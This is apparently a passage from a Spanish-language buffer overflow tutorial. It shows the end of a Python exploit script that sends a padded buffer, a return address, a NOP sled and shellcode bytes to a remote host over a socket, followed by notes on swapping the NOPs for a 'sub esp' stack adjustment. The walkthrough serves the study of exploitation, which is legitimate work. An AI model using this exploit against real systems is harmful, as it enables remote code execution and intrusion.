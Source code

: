 ```python
shellcode += b"\x19\xaf\x10\x57\xfb\x80\x0e\x73\x48\x84\xb1\xb0\xb0"
shellcode += b"\x83\x67\x88\xb5\x1d\x0e\x73\xeb\xa1\xd1\xdc\xa2\xe9"
shellcode += b"\x76\xcc\xd0\x27\x6b\xed\x5d\xfc\x02\xcb\x8f\xff\xc3"
shellcode += b"\xb2\x8f\xf3\xee\x96\x9a\xec\xb1\x73\x55\x47\x82\x70"
shellcode += b"\x10\x32\x53\xbb\xfa\x83\x38\x3b\xb0\xea\xd1\xe4\x6e"
shellcode += b"\x2f\x7d\x23\xc5\xd9\x5d\xfb\x48\x06\x3d\x4f\x33\xfe"
shellcode += b"\x03\x9c"

if __name__ == "__main__":
    #buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x83\xEC\x10" + shellcode
    buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x90" * 16 + shellcode
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip_address, rport))
        s.send("%s\r\n" % buffer)
    except Exception as ex:
        print "[!] Ha habido un error de conexion"
        print ex
        sys.exit(1)
```

**Consideraciones**

Si bien se pueden utilizar algunos "trucos" para caer en la dirección donde se encuentra el shellcode como lo son los `NOPs (\x90)` se puede ocupar un desplazamiento de pila para restar posiciones, y jugar un poco con los valores. Dentro de `msf-nasm_shell` se puede invocar la instrucción `sub esp, <valor en hexadecimal>`. Ejemplo:

![OP code de sub](images/bof_10.png)

En este caso se obtendría el valor `83EC10` como código de operación para el desplazamiento de 10 unidades. quedando la línea de construcción del payload como: `buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x83\xEC\x10" + shellcode` en lugar de los `NOPs`.